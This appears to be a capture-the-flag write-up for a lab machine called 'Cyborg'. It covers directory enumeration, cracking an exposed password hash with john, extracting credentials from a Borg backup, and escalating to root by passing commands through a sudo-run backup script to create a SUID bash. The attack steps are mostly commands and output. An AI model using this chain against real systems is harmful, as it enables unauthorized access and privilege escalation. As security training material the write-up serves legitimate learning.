

# Cyborg

## Nmap
```
2 ports

22 ssh
80 http
```


## gobuster

```
$ gobuster dir -u http://10.10.73.15 -w /usr/share/wordlists/dirb/small.txt -x php,html,txt,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.73.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 310] [--> http://10.10.73.15/admin/]
/etc                  (Status: 301) [Size: 308] [--> http://10.10.73.15/etc/]
/index.html           (Status: 200) [Size: 11321]
Progress: 4795 / 4800 (99.90%)
===============================================================
Finished
===============================================================
```

## /etc/


music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.



```
$ cat hash.txt
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
                                                     
$ john hash.txt --format=md5crypt --wordlist=/home/kali/Desktop/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)     
1g 0:00:00:00 DONE (2023-10-14 12:04) 1.086g/s 42365p/s 42365c/s 42365C/s wonderfull..samantha5
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```


## admin

Here we can see and landing page a admin.html page asl well as an archive.tar.

**Admins messages**:

```
############################################
[Today at 5.45am from Alex]
Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
I decided to give up like i always do ahahaha sorry about that.
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
other than that im pretty sure my backup "music_archive" is safe just to confirm.
############################################
```

**Archive**

It is a Borg backup.

Using Borg recreate to extract the archive and the password **squidward** that we got from earlier.

I need to run this as sudo for some reason. maybe because of the reason explained here, idk https://www.reddit.com/r/BorgBackup/comments/m93umf/cache_or_information_obtained_from_the_security/?rdt=44748

```
                                                                                 
┌──(kali㉿kali)-[~/Desktop/Cyborg]
└─$ sudo borg extract archive/home/field/dev/final_archive::music_archive    
Enter passphrase for key /home/kali/Desktop/Cyborg/archive/home/field/dev/final_archive: 
                                                                                 
┌──(kali㉿kali)-[~/Desktop/Cyborg]
└─$ ls
archive  hash.txt  home  images  README.md
                                            
```

Files inside this folder

```
find ./ -type f 
./alex/Desktop/secret.txt
./alex/.profile
./alex/.dbus/session-bus/c707f46991feb1ed17e415e15fe9cdae-0
./alex/.bashrc
./alex/.config/sublime-text-3/Local/Auto Save Session.sublime_session
(....)
./alex/.config/sublime-text-3/Cache/Diff/Diff.sublime-syntax.cache
./alex/.bash_history
./alex/.bash_logout
./alex/Documents/note.txt
```

```
cat home/alex/Desktop/secret.txt
shoutout to all the people who have gotten to this stage whoop whoop!"

cat home/alex/Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
                    
```

## SSH

The previous credentials are ssh creds

## Priv Esc 

```
-bash-4.3$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

We dont have write permission to the file but we can read it


We can see an argument -c can be passed in and it will run  command
```
(.....) 

while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done

(.....) 

cmd=$($command)
echo $cmd

```

**Trying this with whoami**

```
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c whoami
(...)


Backup finished
root
```

### Running a sequence of commands to get a suid bash

* ``` sudo /etc/mp3backups/backup.sh -c "cp /bin/bash /tmp/mal_bash"```
* ```sudo /etc/mp3backups/backup.sh -c "chmod +s /tmp/mal_bash"```

* ```
    alex@ubuntu:~$ /tmp/mal_bash -p
    mal_bash-4.3# whoami
    root
    ```


then we just get all the flags